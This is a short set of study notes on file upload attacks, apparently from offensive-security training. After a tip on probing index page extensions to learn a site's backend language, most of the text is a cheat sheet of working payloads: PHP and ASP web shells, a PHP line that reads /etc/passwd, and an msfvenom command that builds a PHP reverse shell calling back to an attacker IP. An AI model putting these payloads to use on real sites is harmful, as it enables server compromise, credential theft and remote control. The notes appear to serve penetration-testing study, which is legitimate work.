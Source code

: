 # File upload attacks notes

One easy method to determine what language runs the web application is to visit the /index.ext page, where we would swap out ext with various common web extensions, like php, asp, aspx, among others, to see whether any of them exist.

We can use a fuzzer to identify this as well

To test if we can abuse php site with a webshell we can save a file with this to upload:

```
<?php echo "Hello HTB";?>
```

## Cheat Sheets

|Web Shell 	|Description|
|:----|:----|
|\<?php file_get_contents('/etc/passwd'); ?> 	|Basic PHP File Read|
|\<?php system('hostname'); ?> 	|Basic PHP Command Execution|
|\<?php system($_REQUEST['cmd']); ?> |	Basic PHP Web Shell|
|\<% eval request('cmd') %> |	Basic ASP Web Shell|
|msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php 	|Generate PHP reverse shell|
|PHP Web Shell| 	PHP Web Shell|
|PHP Reverse Shell |	PHP Reverse Shell|
|Web/Reverse Shells |	List of Web Shells and Reverse Shells|
